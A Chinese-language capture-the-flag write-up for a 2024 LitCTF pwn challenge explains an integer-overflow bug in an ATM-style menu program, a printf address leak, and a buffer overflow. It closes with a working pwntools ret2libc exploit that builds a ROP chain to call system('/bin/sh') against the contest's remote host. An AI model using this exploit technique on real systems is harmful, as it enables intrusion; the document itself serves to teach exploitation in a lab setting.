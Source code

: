 ### 2024 LitCTF

开了Full RELRO和NX 意味着如果存在格式化字符串我们无法修改got表地址进行跳转
![[Pasted image 20240923211859.png]]

查看主函数，第一个setup就是常规的缓冲区设置
![[Pasted image 20240923211911.png]]

这里有个函数，看到这我还以为是堆的菜单题，往下看就知道不是了
![[Pasted image 20240923211934.png]]

进app_fun()函数看看

![[Pasted image 20240923211948.png]]

![[Pasted image 20240923211958.png]]

第一个password后面的输入随便填就行，没什么用，往下看就是一个大循环，atoi函数就是将字符串转化为整数（int型），第一个case 1u:里面是输出目前nbytes的值，也就是库存，case 2u:是取钱，将你输入的数首先进行检查，防止限制外数的输入，然后将库存nbytes减去你输入的数，case 3u:是存钱，这个条件里面有漏洞，也就是整数溢出的漏洞，我们需要输入一个数，这个数是nptr是int型的，但是在下面有个强制转化：v5 = (unsigned int)nptr; 这里将int型转化为unsigned的类型，会造成溢出，变得非常大，效果如下：

![[Pasted image 20240923212042.png]]

发现库存nbytes变得非常的大。

看看有没有后门，很遗憾没有。只能我们自己去泄露了。

![[Pasted image 20240923212016.png]]

我们往下看看还有什么可以利用的，可以看到case 5u:这里面有个输出，你看看输出的是什么，不错，是printf的真实地址，这就我们解决了泄露的问题了，我们也就可以利用其来寻找libc的版本

![[Pasted image 20240923212029.png]]

并且在这里存在一个read函数，正好可以利用超级大的nbytes来溢出，那么到这里我们的问题已经解决了。

附上exp：仅供参考！！

```
from pwn import*
from LibcSearcher import*
context(terminal = ['tmux','split','-h'])
# p=process('./app')
p = remote('node1.anna.nssctf.cn',28423)
elf=ELF('./app')
context(os='linux', arch='amd64', log_level='debug')
#attach(p)
pop_rdi=0x0000000000401233
ret=0x00000000004014BA
p.recvuntil(b"password:")
# attach(p)
pay=b'passwd'
p.sendline(pay)
p.recvuntil(b"Exit")
pay=b'3'
p.send(pay)
p.recvuntil(b"Please enter your deposit:")
p.send(b"-1")

p.recvuntil(b"Exit")
pay=b'5'
p.sendline(pay)
p.recvuntil(b"gift:")
addr=int(p.recv(16),16)
print(hex(addr))

libc=LibcSearcher("printf",addr)
log.success('leak_atoi_real_addr => {}'.format(hex(addr)))
libcbase = addr - libc.dump('printf')
system_addr = libcbase + libc.dump('system')
str_bin_sh = libcbase + libc.dump('str_bin_sh')

log.success('leak_system_real_addr => {}'.format(hex(system_addr)))
log.success('leak_bin_sh_real_addr => {}'.format(hex(str_bin_sh)))

payload=flat(b'a'*0x168,ret,pop_rdi,str_bin_sh,system_addr)
p.sendline(payload)
p.sendline(b"4")

p.interactive()
```
